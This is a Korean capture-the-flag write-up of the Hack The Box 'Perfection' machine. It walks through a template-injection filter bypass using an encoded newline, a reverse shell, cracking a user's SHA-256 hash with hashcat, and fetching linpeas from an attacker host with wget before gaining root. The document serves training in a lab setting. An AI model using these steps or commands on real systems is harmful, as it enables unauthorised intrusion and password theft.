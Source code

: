 # hack the box: perfection
## 사용된 취약점
## SSTI
- SSTI(Server Side Template Injection)취약점: 웹 어플리케이션에 적용되어 있는 웹 템플릿 엔진(Web Template Engine)에 공격자의 공격 코드가 템플릿에 포함된 상태에서 서버 측에서 템플릿 인젝션이 발현되는 공격을 의미

- category1=1&grade=50&weight=1…
    - SSTI에 취약함
- burpsuite로 테스트를 진행한다.
    - 입력 값을 넣는 곳에 %0A를 넣고 \` \` 안에 스크립트를 삽입한 후 스크립트 전체를 url인코딩하여 실행한다.
        - %0A=\n(개행문자)
        - 개행 문자를 넣은 이유는 스크립트를 그냥 삽입할 경우 malicious code detected 경고가 나와 필터링을 하고 있는 것을 알아차릴 수 있기 때문에 우회 목적으로 넣음
- 반복적인 코드를 템플릿 문서로 만드는 구조로 되어 있다.
- ${7*7}을 넣어 49가 나오는 것으로 보아 server side에서 script가 실행되는 것을 알 수 있다.
    - hacktricks에서 해당 문서를 참조
    - 언어, 프레임워크마다 명령어 종류가 다양함
- reverseshell generator를 이용하여 코드를 생성
    - burpsuite에 넣고 url encoding을 하여 reverse shell을 얻을 수 있다.
    - category1=Maths%0A` <스크립트 삽입>`

- which 로 프로그램 경로 찾을 수 있음
- python3 -c ‘import pty;pty.spawn(”/bin/bash”)’를 한다.
    - pseudo-terminal interface를 import함
    - 그 후 bash shell을 실행
        - 그 이유
        - 완전한 대화형 셸로 업그레이드 하려는 목적
        - 여러 편의성을 위해서 시도
        - 만약 완전한 상호 작용 기능을 제공할 경우 필요 없음
- user.txt의 플래그 값을 찾을 수 있다.

- sqlite3 pupilpath_credentials.db로 db파일을 읽어 susan의 해시 값을 읽을 수 있다.
    - 전 단계에서 susan이 sudo 그룹에 속한 것 때문에 susan의 해시 값을 크랙한다.
    - 만약 그룹에 속하지 않았다면 다른 사용자를 크랙해야 한다.

- hashcat susan.txt /usr/share/wordlists/rockyou.txt
- 크랙은 되지 않았지만 해시 값의 종류를 sha-256으로 좁힐 수 있다.
- hashcat -m 1400 susan.txt /usr/share/wordlists/rockyou.txt 로 시도
    - -m 1400 :sha-256으로 지정
- linpeas.sh를 실행
    - kali에서 python3 -m http.server 4444로 서버 오픈
    - server 터미널에서 wget http://10.10.14.44:4444/linpeas.sh로 다운로드 시킨다.
    - chmod +x linpeas.sh로 하여 실행
- linpeas 결과 중 mail결과에서 pw format을 찾을 수 있다.
    - {firstname_firstname}_{reversed_random}_{integer between1 and 1billion}
    -                                             1000000000(9자리 수)
        
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d
    - -a 3: brute force mode
    - ?d : 9자리수 무작위 숫자 지정
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d —show로 결과 값 확인
- sudo bash로 크랙 된 pw를 삽입 후 whoami로 root권환을 획득할 수 있다.
## 결론
## SSTI를 이용해서 침투를 수행하고 db파일의 해시값을 통해 크랙하여 pw를 얻을 수 있었다.
## 입력값을 검증하지 않고 명령어를 넣어 실행되는 것을 알 수 있었기에 이를 막아야 보안상의 허점이 줄어든다.

# 보충

- [linpeas.sh](http://linpeas.sh) 기능?
    - linux, macOS에서 권한 상승 가능한 리스트를 나타내는 스크립
